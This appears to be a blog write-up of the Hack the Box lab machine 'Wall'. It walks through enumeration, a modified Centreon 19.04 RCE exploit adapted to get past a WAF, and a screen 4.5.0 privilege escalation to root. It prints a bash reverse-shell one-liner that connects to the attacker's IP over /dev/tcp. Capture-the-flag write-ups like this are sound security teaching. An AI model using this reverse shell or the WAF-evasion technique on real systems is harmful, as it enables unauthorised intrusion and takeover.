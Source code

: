 +++
author = "Nick"
categories = ["hack the box", "python", "burpsuite", "gobuster", "RCE", "reverse shell", "screen", "LPE"]
date = 2019-12-07T13:15:15Z
description = ""
draft = false
thumbnail = "/images/2019/11/wall.png"
slug = "hack-the-box-wall"
summary = "Welcome to my write-up for the Hack the Box machine, Wall. This box is listed as an easy box, let's jump in!"
tags = ["hack the box", "python", "burpsuite", "gobuster", "RCE", "reverse shell", "screen", "LPE"]
title = "Hack the Box - Wall"

+++


Welcome to my write-up for the Hack the Box machine, Wall. This box is listed as a medium box, let's jump in!

As normal we start our enumeration process with ```nmap```. 

```nmap -sC -sV -oA initial_scan 10.10.10.157```

our results are pretty standard:

```
Nmap scan report for 10.10.10.157
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.89 seconds
```

Let's head over to see what's being hosted. 

We see a standard ```apache2``` install. So we're going to want to enumerate this site a bit. We'll add it to our hostfile as wall.htb and send it into ```gobuster```.

We run:
```gobuster dir -u http://wall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40```

We only get back two standard results

![](/images/2019/11/image-16.png)

Since I didn't specify the ```-x``` parameter on the initial scan, we need to run it again for file extensions. We see there are a few with the .php extension.

![](/images/2019/11/image-17.png)

There are some interesting files and folders after enumeration. There doesn't seem to be much we can do with the two new ```php``` files. When we open ```Burpsuit``` and start to poke the site with ```GET``` and ```POST``` requests, we see that if we send a ```POST``` request to ```/monitoring/``` we are redirected to ```/centreon```.

![](/images/2019/11/image-18.png)

We go to the address and are greated with a login form. We see the version running is 19.04. A quick ```searchsploit``` on Centreon shows us that there is an RCE for this particular version.

![](/images/2019/11/image-19.png)

We can copy this exploit to our current working directory with the ```-m``` command of ```searchsploit```.

```searchsploit centreon -m 47069```.

When we run the exploit we see our options:

![](/images/2019/11/image-20.png)

In this case we'll need to obtain user credentials to run the exploit. Now you can brute force this login with a few options, ```hydra```, ```wfuzz``` or just write your own. In my case guessing the password without doing any of those worked out, turns out password1 isn't exactly hard to guess. Now that we have some credentials, we can use this exploit. 

So we give our exploit our credentials and our IP and port. Start a new NC listener and fire it off... Nothing. Hmmm, so We will modify the exploit to show us what might be going on. We modify the last bit of lines to show as this:

![](/images/2019/11/image-25.png)

Now that we will get back some data on what might be going on, we run it again and see what's not working. We get back some XML data but it seems that it's working. There could be a WAF in place blocking the standard malicious payloads. So we'll again modify our script to simply take the payload we give it.

To do this we will change the amount of arguments our script takes. We will remove the line 30 & 31 for  ```ip``` and ```port```. We will then create an argument called ```payload```. We also need to modify the expected length on line 22. We should have something like this:

![](/images/2019/11/image-26.png" caption=")

We then need to modify our ```payload_info```. Line 69 is where the payload the default exploit would use. However, we can simply replace this payload with the variable ```payload```. This way we can modify our payload on the go to evade whatever might be blocking the standard payload.

![](/images/2019/11/image-27.png)

Our first goal will be to test it. We will execute our newly modified script to test that it works. We will start up a ```SimpleHTTPServer``` and host a file. We will then issue ```wget``` and see if the file is retrieved. In this case I made a quick file called shell.sh which has the standard bash remote connection:

```bash -i >& /dev/tcp/10.10.15.154/4444 0>&1```

We fire off our new exploit and we see it connect back to us and download the file.

![](/images/2019/11/image-28.png)

Below we see that the exploit has indeed worked.

![](/images/2019/11/image-21.png)

Next we have to move our file to the ```/tmp``` directory just to be sure it can run.  Then change the permissions of our script so it can execute.

![](/images/2019/11/image-22.png)

We then fire up our listener and tell the script to execute. The first few times I tried this, I was unable to get a shell on random ports. So we just use the good ol' port 53 trick.

![](/images/2019/11/image-24.png)

We get a shell back as ```www-data```! Now that we are on the machine, we can start enumerating. We download ```linenum``` and see what it comes back with. One item that is noticeable is ```screen-4.5.0``` in our SUID section.

![](/images/2019/11/image-29.png)

A quick ```searchsploit``` for screen comes back with two possible Local Privilege Escalations.

![](/images/2019/11/image-30.png)

We will download the exploit, host it on our server and get it from the target machine.

![](/images/2019/11/image-31.png)

The exploit will error, however if we check the directory, we see our shell file ```rootshell```.  After that we run it and we have root shell:

![](/images/2019/11/image-33.png)

We then grab the user flag. The box is done!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

